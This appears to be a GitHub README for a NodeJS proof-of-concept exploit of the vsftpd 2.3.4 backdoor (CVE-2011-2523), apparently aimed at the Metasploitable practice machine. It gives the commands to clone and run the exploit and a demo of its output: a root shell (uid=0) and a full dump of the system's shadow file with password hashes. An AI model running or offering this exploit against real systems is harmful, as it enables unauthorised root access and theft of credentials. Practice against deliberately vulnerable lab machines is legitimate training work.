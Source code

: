 # CVE-2011-2523 - vsftpd_2_3_4_exploit

This is a POC exploit created in NodeJS to exploit the backdoor within vsftpd 2.3.4




## Demo

C:\Program Files\nodejs\node.exe .\vsftpd_2_3_4_exploit\index.js
```
220 (vsFTPd 2.3.4)

331 Please specify the password.

root

uid=0(root) gid=0(root)

root:$1$/avpfBJ1$x0z8w5UF9Iv./DR9E9Lid.:14747:0:99999:7:::
daemon:*:14684:0:99999:7:::
bin:*:14684:0:99999:7:::
sys:$1$fUX6BPOt$Miyc3UpOzQJqz4s5wFD9l0:14742:0:99999:7:::
sync:*:14684:0:99999:7:::
games:*:14684:0:99999:7:::
man:*:14684:0:99999:7:::
lp:*:14684:0:99999:7:::
mail:*:14684:0:99999:7:::
news:*:14684:0:99999:7:::
uucp:*:14684:0:99999:7:::
proxy:*:14684:0:99999:7:::
www-data:*:14684:0:99999:7:::
backup:*:14684:0:99999:7:::
list:*:14684:0:99999:7:::
irc:*:14684:0:99999:7:::
gnats:*:14684:0:99999:7:::
nobody:*:14684:0:99999:7:::
libuuid:!:14684:0:99999:7:::
dhcp:*:14684:0:99999:7:::
syslog:*:14684:0:99999:7:::
klog:$1$f2ZVMS4K$R9XkI.CmLdHhdUE3X9jqP0:14742:0:99999:7:::
sshd:*:14684:0:99999:7:::
msfadmin:$1$XN10Zj2c$Rt/zzCW3mLtUWA.ihZjA5/:14684:0:99999:7:::
bind:*:14685:0:99999:7:::
postfix:*:14685:0:99999:7:::
ftp:*:14685:0:99999:7:::
postgres:$1$Rw35ik.x$MgQgZUuO5pAoUvfJhfcYe/:14685:0:99999:7:::
mysql:!:14685:0:99999:7:::
tomcat55:*:14691:0:99999:7:::
distccd:*:14698:0:99999:7:::
user:$1$HESu9xrH$k.o3G93DGoXIiQKkPmUgZ0:14699:0:99999:7:::
service:$1$kR3ue7JZ$7GxELDupr5Ohp6cjZ3Bu//:14715:0:99999:7:::
telnetd:*:14715:0:99999:7:::
proftpd:!:14727:0:99999:7:::
statd:*:15474:0:99999:7:::
```

# Installation

git clone https://github.com/ThePenClicker/MetasploitableSolutions.git

cd MetasploitableSolutions/vsftpd_2_3_4_exploit

node index.js
